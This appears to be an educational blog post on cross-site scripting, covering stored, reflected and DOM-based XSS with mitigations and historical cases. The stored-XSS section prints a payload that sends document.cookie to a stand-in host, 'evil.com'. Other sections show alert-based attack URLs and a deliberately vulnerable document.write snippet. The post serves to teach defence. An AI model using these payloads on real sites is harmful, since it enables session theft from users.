 ```yaml
---
title: "Cross-Site Scripting (XSS): OWASP Top 10 & Real-World Exploitation"
date: 2025-07-31
layout: post
tags: [OWASP, Web Security, XSS]
---
```


<style>
  .toc-box {
    background-color: #f9f9f9;
    padding: 20px;
    border-left: 5px solid #007acc;
    border-radius: 6px;
    margin-bottom: 30px;
  }
</style>

<div class="toc-box">
<strong>Table of Contents</strong>
<ul>
  <li><a href="#what-is-cross-site-scripting-xss">What is Cross-Site Scripting (XSS)?</a></li>
  <li><a href="#types-of-xss">Types of XSS</a>
    <ul>
      <li><a href="#1-stored-xss">1. Stored XSS</a></li>
      <li><a href="#2-reflected-xss">2. Reflected XSS</a></li>
      <li><a href="#3-dom-based-xss">3. DOM-Based XSS</a></li>
    </ul>
  </li>
  <li><a href="#how-xss-attacks-work">How XSS Attacks Work</a></li>
  <li><a href="#real-world-examples">Real-World Examples</a></li>
  <li><a href="#general-mitigation-strategies">General Mitigation Strategies</a></li>
  <li><a href="#conclusion">Conclusion</a></li>
  <li><a href="#references">References</a></li>
</ul>
</div>

---

## What is Cross-Site Scripting (XSS)?

Cross-Site Scripting (XSS) is a client-side code injection vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. When executed in the victim’s browser, these scripts can steal cookies, session tokens, sensitive data, or perform actions on behalf of the user. XSS is included in the [OWASP Top 10](https://owasp.org/Top10) due to its high frequency and impact.

---

## Types of XSS

### 1. Stored XSS

**Definition:**  
Stored XSS occurs when malicious scripts are permanently saved on the target server (e.g., in a database, comment section, forum post). Any user who accesses the affected page will automatically execute the malicious code.

**How it works:**
1. Attacker submits malicious JavaScript into an input field that gets stored in the application’s database.
2. When another user loads the page, the stored script is included in the page’s HTML and executed by the browser.
3. The script can perform actions like stealing cookies, keylogging, or redirecting the user to malicious sites.

**Example payload & Mitigation:**

```html
<script>fetch('https://evil.com?cookie=' + document.cookie)</script>

**Mitigation:**  
Sanitize and validate all user inputs before storing them; use context-aware output encoding; avoid directly inserting untrusted data into HTML; apply a strict Content Security Policy (CSP).


### 2. Reflected XSS

**Definition:**  
Reflected XSS occurs when malicious scripts are embedded in a URL or request and reflected back to the browser in the server’s response without proper sanitization.

**How it works:**
1. Attacker crafts a malicious link containing JavaScript code in a parameter.
2. Victim clicks the link and sends a request to the vulnerable application.
3. The application reflects the malicious input in its response, which the browser executes.

**Example payload in URL:**
```
https://example.com/search?q=<script>alert('XSS')</script>
```

**Mitigation:**  
Sanitize and encode all user inputs before reflecting them in responses; use frameworks that automatically escape output; avoid dynamically generating HTML from untrusted data; implement CSP to block inline scripts.

---

### 3. DOM-Based XSS

**Definition:**  
DOM-Based XSS happens when the client-side JavaScript modifies the DOM based on untrusted data without proper sanitization, leading to script execution without any server-side involvement.

**How it works:**
1. Attacker crafts a malicious payload that manipulates the page’s DOM via URL fragments, query parameters, or other sources.
2. The vulnerable JavaScript code inserts this data directly into the page without escaping.
3. The browser executes the malicious code.

**Example vulnerable code:**
```javascript
document.write(location.hash);
```

**Example attack URL:**
```
https://example.com/page#<script>alert('XSS')</script>
```

**Mitigation:**  
Avoid dangerous DOM manipulation methods like `document.write()` and `innerHTML` with untrusted data; use safe DOM APIs like `textContent` or `setAttribute()`; sanitize inputs with trusted libraries (e.g., DOMPurify); implement CSP to prevent execution of injected scripts.

---

## How XSS Attacks Work

1. **Injection:** The attacker injects malicious JavaScript into a vulnerable page.
2. **Execution:** The victim’s browser renders the page and runs the script.
3. **Impact:** The attacker can steal session cookies, perform actions as the user, or spread malware.

---

## Real-World Examples

- **MySpace Samy Worm (2005):** A self-replicating XSS worm that spread to over 1 million profiles in 24 hours.
- **British Airways Breach (2018):** Malicious JavaScript was injected to steal payment details from thousands of customers.

---

## General Mitigation Strategies

- Validate and sanitize all user inputs on both client and server.
- Use context-specific output encoding.
- Enforce a strong Content Security Policy (CSP).
- Avoid unsafe JavaScript functions and DOM manipulation methods.
- Use security features provided by frameworks.
- Regularly test for XSS vulnerabilities using automated scanners and manual penetration testing.

---

## Conclusion

XSS is a critical vulnerability that undermines user trust and can cause severe data breaches. By implementing proper input handling, output encoding, and browser-based security controls, developers can significantly reduce the risk of exploitation.

---

## References

- [OWASP: Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
- [PortSwigger: XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)



